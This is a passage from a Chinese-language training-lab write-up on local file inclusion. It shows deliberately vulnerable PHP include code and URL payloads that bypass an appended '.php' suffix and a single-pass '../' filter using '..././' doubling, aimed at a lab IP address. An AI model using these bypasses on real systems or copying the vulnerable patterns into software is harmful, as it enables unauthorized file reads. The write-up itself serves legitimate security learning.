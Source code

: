 ![image-20241031101924137](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031101924137.png)

#### LFI-4

```bash
<?php
include('includes/class_'.addslashes($_GET['class']).'.php');
?>
```

绕过结尾增加的`.php`

`includes/class_`当成两个目录,使用`/`闭合当成`includes/class_/`

```bash
http://192.168.70.10:8101/LFI-4/index.php?class=/../../../1
```

![image-20241031103132345](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031103132345.png)

#### LFI-5

```php
<?php
   $file = str_replace('../', '', $_GET['file']);
   if(isset($file))
   {
       include("pages/$file");
   }
   else
   {
       include("index.php");
   }
?>
```

> - `../`  会被 替换成 **空**
> - `pages/`当成一个文件夹

##### 双写绕过

**../双写**

如果是  `..././`变成`../`

如果是`..././..././`，则会变为`../../`   可以一直向上级目录跳转

使用`..././..././phpinfo.php`是 `../../phpinfo.php`，即可访问到phpinfo.php

```bash
http://192.168.70.10:8101/LFI-5/index.php?file=..././..././1.php
```

![image-20241031104503198](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031104503198.png)

#### LFI-6
